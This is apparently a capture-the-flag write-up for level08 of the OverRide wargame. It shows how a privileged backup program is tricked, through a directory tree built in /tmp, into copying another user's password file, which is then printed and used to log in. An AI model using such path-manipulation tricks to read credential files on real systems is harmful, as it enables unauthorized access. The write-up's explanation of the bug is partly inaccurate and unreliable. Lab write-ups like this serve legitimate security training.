

# level08



Mhmhmhmhmhmhm... And there's a suspicous folder named `backups` in the home directory :
```sh
level08@OverRide:~$ ls
backups  level08
level08@OverRide:~$ ls -la backups/
total 4
drwxrwx---+ 1 level09 users    60 Oct 19  2016 .
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ..
-rwxrwx---+ 1 level09 users    38 Nov 27 17:43 .log
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: ./backups/.log
level08@OverRide:~$ 
```

# _Oh ! NO WAYYYYYYY ! I have the permission to execute the file `.log` in the `backups` folder 🤯🤯🤯🤯🤯🤯🤯🤯🤯🤯🤯🤯🤯🤯🤯🤯_

```sh
level08@OverRide:~$ cd backups/
level08@OverRide:~/backups$ ./.log
./.log: line 1: LOG:: command not found
level08@OverRide:~/backups$ 
```


Joke aside, let's test the program :

```sh
level08@OverRide:~$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
level08@OverRide:~$ ./level08 Koby
ERROR: Failed to open Koby
level08@OverRide:~$ ./level08 .
ERROR: Failed to open ./backups/.
level08@OverRide:~$ ./level08 ./backups/.log
ERROR: Failed to open ./backups/./backups/.log
level08@OverRide:~$
```

# 1. GOMU GOMU NO BOH


```sh
level08@OverRide:~$ cd /tmp/
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ touch backups/.log
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
level08@OverRide:/tmp$
```

The code is not very difficult to understand.

- By looking at the code, we can see that the program is trying to open the file passed as argument, and if it fails, it will try to open the file with the path `./backups/` + the argument passed.

- By creating the directory structure and files in tmp, you trick the program into opening the file from the backups directory. When you run the program with the argument `/home/users/level09/.pass`, it fails to open the file directly and falls back to the `./backups/` directory. Since you have created the necessary structure in `/tmp/backups/`, the program successfully opens the file and reveals the password.

This exploit works because the program does not sanitize or validate the file paths properly, allowing you to manipulate the file system to your advantage.

Let's log in as level09 (the bonus level) :

```sh
level08@OverRide:/tmp$ su level09
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$ 
```

# level08 complet !


